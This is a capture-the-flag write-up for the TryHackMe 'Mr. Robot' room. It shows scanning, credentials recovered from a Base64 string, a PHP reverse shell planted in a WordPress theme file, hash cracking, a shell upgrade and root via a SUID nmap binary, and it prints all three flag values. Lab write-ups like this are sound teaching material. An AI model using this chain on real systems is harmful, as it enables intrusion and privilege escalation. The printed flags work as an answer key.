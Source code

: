 ```yaml
---
title: "TryHackMe - Mr. Robot CTF"
date: 2025-04-24 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [wordpress , php, mrrobot, reverse shell, gobuster, nmap, GTFOBins ]
---
```



## Reconnaissance and Key 1

For this [CTF challenge](https://tryhackme.com/room/mrrobot), I began enumeration against the target 10.10.251.86 using **Nmap**:

```console
──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV -T4 -p- 10.10.251.86
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-30 05:27 EDT
Nmap scan report for 10.10.251.86
Host is up (0.069s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

```

Open ports discovered:

- 80/tcp – HTTP (Apache)

- 443/tcp – HTTPS 

- 22/tcp – closed

Directory enumeration with `Gobuster` revealed `WordPress`- related paths:

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://10.10.251.86 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.251.86
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 235] [--> http://10.10.251.86/images/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.251.86/blog/]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.251.86/feed/]
/sitemap              (Status: 200) [Size: 0]
/login                (Status: 302) [Size: 0] [--> http://10.10.251.86/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.251.86/0/]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.251.86/feed/]
/video                (Status: 301) [Size: 234] [--> http://10.10.251.86/video/]
/image                (Status: 301) [Size: 0] [--> http://10.10.251.86/image/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.251.86/feed/atom/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.251.86/wp-content/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.251.86/admin/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.251.86/audio/]
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2664]
/css                  (Status: 301) [Size: 232] [--> http://10.10.251.86/css/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.251.86/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.251.86/wp-includes/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.251.86/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.251.86/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.251.86/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.251.86/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.251.86/wp-admin/]
/%20                  (Status: 301) [Size: 0] [--> http://10.10.251.86/]
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.251.86/wp-admin/]
/0000                 (Status: 301) [Size: 0] [--> http://10.10.251.86/0000/]
/phpmyadmin           (Status: 403) [Size: 94]
/xmlrpc               (Status: 405) [Size: 42]
```

Among the discovered resources was `https://10.10.251.86/robots`, containing two files:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

I downloaded both using:

```
wget http://10.10.251.86/fsocity.dic
wget http://10.10.251.86/key-1-of-3.txt
```

Inside `key-1-of-3.txt`, I found an MD5 hash : 

`073403c8a58a1f80d943455fb30724b9`. 

## Key 2
Later, I found a suspicious Base64 string in the `http://10.10.251.86/license` :

```
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
do you want a password or something?
ZWxsaW90OkVSMjgtMDY1Mgo=
```

Decoded with [CyberChef](https://gchq.github.io/CyberChef/), it revealed credentials:

![1creds](/images/mrrobotctf/1creds.jpg)


`elliot:ER28-0652`


Logging into the WordPress admin panel via `/wp-login` was successful. The `elliot` user had administrative privileges, including the ability to edit themes and plugins. Leveraging these rights, I followed a technique described in the article [From Wordpress to Reverse Shell](https://medium.com/@akshadjoshi/from-wordpress-to-reverse-shell-3857ee1f4896). I used the [Reverse Shell Generator](https://www.revshells.com/) and selected the `PHP PentestMonkey` payload, which I then injected into the `404.php` file to gain a reverse shell.

![2revshell](/images/mrrobotctf/2revshell.jpg)


Triggering the payload by visiting the following URL:

`http://10.10.251.86/wp-content/themes/404template/404.php`

established a reverse shell. 

 In the `/home/robot/` directory, I found:

```
$ ls      
key-2-of-3.txt
password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

The hash cracked using [CrackStation](https://crackstation.net) yelded

![3crack](/images/mrrobotctf/3crack.png)

 `abcdefghijklmnopqrstuvwxyz`


Once the reverse shell was established, it lacked full interactivity. To upgrade it, I ran:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

The user was successfully switched to `robot` using the previously cracked password. Once logged in, I was able to read the second key stored in the `key-2-of-3.txt` file.

```console
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```


## Key 3

The clue for the third key was `nmap`. I proceed with the privilege escalation attempt. The first step is to search for SUID files that I can use for escalation.

`find / -perm -u=s -type f 2>/dev/null`

```console
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
Among the results, an interesting executable appears: `/usr/local/bin/nmap`, which has the SUID bit set.


Based on the previous scan which revealed a nmap binary with the SUID bit set, I referenced [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#suid) to check for privilege escalation vectors. Following the documented method, I launched nmap in interactive mode and executed a system shell:

```
nmap --interactive
nmap> !sh
```

As a result, I gain a root shell, which allows me to access the `/root` directory and retrieve the final key stored in `key-3-of-3.txt`.

```
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
